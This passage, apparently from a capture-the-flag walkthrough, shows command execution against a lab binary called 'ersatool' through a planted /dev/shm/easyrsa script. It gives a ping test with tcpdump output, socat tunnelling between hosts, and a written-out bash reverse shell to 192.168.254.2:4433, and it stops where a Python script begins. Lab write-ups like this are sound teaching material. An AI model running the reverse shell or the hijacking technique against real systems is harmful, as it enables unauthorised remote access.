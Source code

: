 I'll also need a script at `/dev/shm/easyrsa`:



    #!/bin/bash

    ping -c 2 127.0.0.1



It needs to be executable as well:



    oxdf@parrot$ chmod +x /dev/shm/easyrsa



Now I'll start `tcpdump` and run the script:



    oxdf@parrot$ sudo tcpdump -i lo icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
    11:30:46.818608 IP localhost > localhost: ICMP echo request, id 13015, seq 1, length 64
    11:30:46.818616 IP localhost > localhost: ICMP echo reply, id 13015, seq 1, length 64
    11:30:47.867404 IP localhost > localhost: ICMP echo request, id 13015, seq 2, length 64
    11:30:47.867417 IP localhost > localhost: ICMP echo reply, id 13015, seq 2, length 64



That's command execution.

#### Remote Exploitation

To make this work remotely, I'll need to interact with the binary.
PwnTools isn't on the container, so I'll create tunnels so that my host
can interact with the binary. I'll use `socat`to both tunne from web to
pki, and to host `ersatool` on pki:

![](/img/image-20211217115726485.png)

On pki, I'll drop a simple Bash script into `/dev/shm` to create a
reverse shell back to web:



    www-data@pki:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/192.168.254.2/4433 0>&1'
    #!/bin/bash

    bash -i >& /dev/tcp/192.168.254.2/4433 0>&1
    www-data@pki:/dev/shm$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/192.168.254.2/4433 0>&1' > easyrsa
    www-data@pki:/dev/shm$ chmod +x easyrsa 



I'll upload `socat` to web (using Python webserver). I need a good way
to get it to pki. I wrote a short Python script:



    #!/usr/bin/env python3
